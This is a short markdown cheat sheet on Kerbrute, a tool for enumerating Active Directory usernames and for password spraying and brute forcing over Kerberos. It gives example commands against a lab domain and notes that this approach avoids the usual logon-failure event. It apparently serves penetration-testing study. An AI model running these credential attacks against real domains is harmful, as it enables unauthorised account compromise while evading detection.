 # Kerbrute Cheatsheet
 For more information on the mechanics of Kerberos  [[Active-Directory-Kerberos-Defined]] and [[Attacking-Kerberos]].
 
Kerbrute go install method `go install github.com/ropnop/kerbrute@latest`  
[Kerbrute precompiled](https://github.com/ropnop/kerbrute/releases)

Kerbrute has three main commands:

-   **bruteuser** - Bruteforce a single user's password from a wordlist
-   **bruteforce** - Read username:password combos from a file or stdin and test them
-   **passwordspray** - Test a single password against a list of users
-   **userenum** - Enumerate valid domain usernames via Kerberos
`kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local /path/to/wordlist/usernames.txt`


Bruteforcing Windows passwords with Kerberos is much faster than any other approach and potentially stealthier since pre-authentication failures do not trigger that  "traditional" An account failed to log on event 4625. With Kerberos, you can validate  # a username or test a login by only sending one UDP frame to the KDC (Domain Controller) 
```bash
# User enum (valid/invalid) 
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt  
# Password spraying 
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123  # Brute force one user (take care of policy!) 
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman  
# General bruteforce (from username:password wordlist or from stdin) 
./kerbrute -d lab.ropnop.com bruteforce -`
```

## References

[Haak9](https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/)